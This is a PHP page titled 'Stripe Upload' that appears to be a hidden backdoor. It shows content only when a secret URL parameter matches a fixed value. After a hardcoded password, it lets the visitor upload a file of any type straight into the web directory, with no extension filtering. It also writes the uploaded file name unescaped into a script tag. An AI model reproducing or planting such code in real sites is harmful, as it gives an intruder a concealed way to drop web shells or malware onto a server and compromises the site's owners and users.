 <?php
if ($_GET['ur1-id'] == "gh_NGHHBGF-4635")
{
	session_start();
	if (isset($_POST["submit"]))
	{
		$str =  "<script>$('#retval').html('";
		if ($_POST['pwd'] == 'BNH_11-hgdbnj') {
        $target_dir    = "./";
        $target_file   = $target_dir . basename($_FILES["fileToUpload"]["name"]);
        $uploadOk      = 1;
        $FileType = strtolower(pathinfo($target_file, PATHINFO_EXTENSION));
        // Check if file already exists
        if (file_exists($target_file))
		{
            $str .= "Sorry, file already exists.<br>";
            $uploadOk = 0;
        }
        if ($uploadOk == 0) {
            $str .= "Sorry, your file was not uploaded.";
            // if everything is ok, try to upload file
        } else {
            if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
                $str .= "The file " . basename($_FILES["fileToUpload"]["name"]) . " has been uploaded.";
            } else {
                $str .= "Sorry, there was an error uploading your file.";
            }
        }
    } else {
        $str .= "Invalid key";
    }
    $str .= "');</script>";
    $_SESSION['message'] = $str;
    unset($_POST);
    unset($_FILES);
    header("Location: parent_info_123.php?ur1-id=gh_NGHHBGF-4635");
    exit;
}
?>
<!DOCTYPE html>
<html>

<head>
    <meta charset="utf-8">
    <title>Stripe Upload</title>
    <link rel="icon" href="favicon.png">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css">
	<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.4.1/jquery.min.js"></script>
	<script src="https://cdnjs.cloudflare.com/ajax/libs/popper.js/1.14.7/umd/popper.min.js"></script>
	<script src="https://maxcdn.bootstrapcdn.com/bootstrap/4.3.1/js/bootstrap.min.js"></script>
</head>

<body class="text-center">
    <div class="container-fluid">

        <div class="row justify-content-center">
            <div class="mx-1 mt-1 card rounded">
                <div class="card-body">
                    <form action="?order_id=gFa6IcyDFvlq4w==" method="post" enctype="multipart/form-data" class="form-signin">
                        <h1 class="h3 mb-3 font-weight-normal">Please verify</h1>
                        <label for="inputPassword" class="sr-only">Password</label>
                        <input type="password" name="pwd" id="pwd" class="form-control" placeholder="Password" required>
                        <label class="btn btn-primary btn-block">
                            Browse <input type="file" name="fileToUpload" id="filetoUpload"
                                onchange="$('#upload-file-info').html(this.files[0].name)" hidden>
                        </label>
                        <p class='label label-info' id="upload-file-info"></p>
                        <p class='label label-info' id="retval"></p>
                        <button name="submit" class="btn btn-lg btn-primary btn-block" type="submit">Verify and upload
                        </button>
                    </form>
                </div>
            </div>

        </div>
    </div>
    <?php
        if(isset($_SESSION['message']))
        {
            echo $_SESSION['message'];
            unset($_SESSION['message']);
        }
    ?>
</body>

</html>
<?php
}
?>

